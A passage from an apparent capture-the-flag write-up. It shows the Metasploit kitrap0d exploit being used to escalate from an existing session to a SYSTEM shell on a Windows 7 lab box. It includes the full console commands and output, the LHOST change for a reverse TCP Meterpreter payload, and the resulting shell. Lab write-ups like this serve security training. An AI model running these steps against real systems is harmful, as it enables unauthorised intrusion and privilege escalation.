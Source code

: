 Using **set SESSION 1** lets the exploit uses the already open session to box. Now we can run it:

```text
msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit 
[*] Started reverse TCP handler on 192.168.0.11:4444 
[*] Launching notepad to host the exploit...
[+] Process 3324 launched.
[*] Reflectively injecting the exploit DLL into 3324...
[*] Injecting exploit into 3324 …
[*] Exploit injected. Injecting payload into 3324...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.
```

First time you run exploit it has wrong IP, not sure how to change before, but can do it now:

```text
msf5 exploit(windows/local/ms10_015_kitrap0d) > options
Module options (exploit/windows/local/ms10_015_kitrap0d):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.11     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.22
LHOST=> 10.10.14.22
msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit
[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] Launching notepad to host the exploit...
[+] Process 2988 launched.
[*] Reflectively injecting the exploit DLL into 2988...
[*] Injecting exploit into 2988 …
[*] Exploit injected. Injecting payload into 2988...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.22:4444 -> 10.10.10.5:49160) at 2019-07-23 13:21:54 +0100
```

### User and Root Flags

Session established using exploit, now get a root shell:

```text
meterpreter > shell
Process 3532 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
c:\windows\system32\inetsrv>whoami
whoami
nt authority\system
```
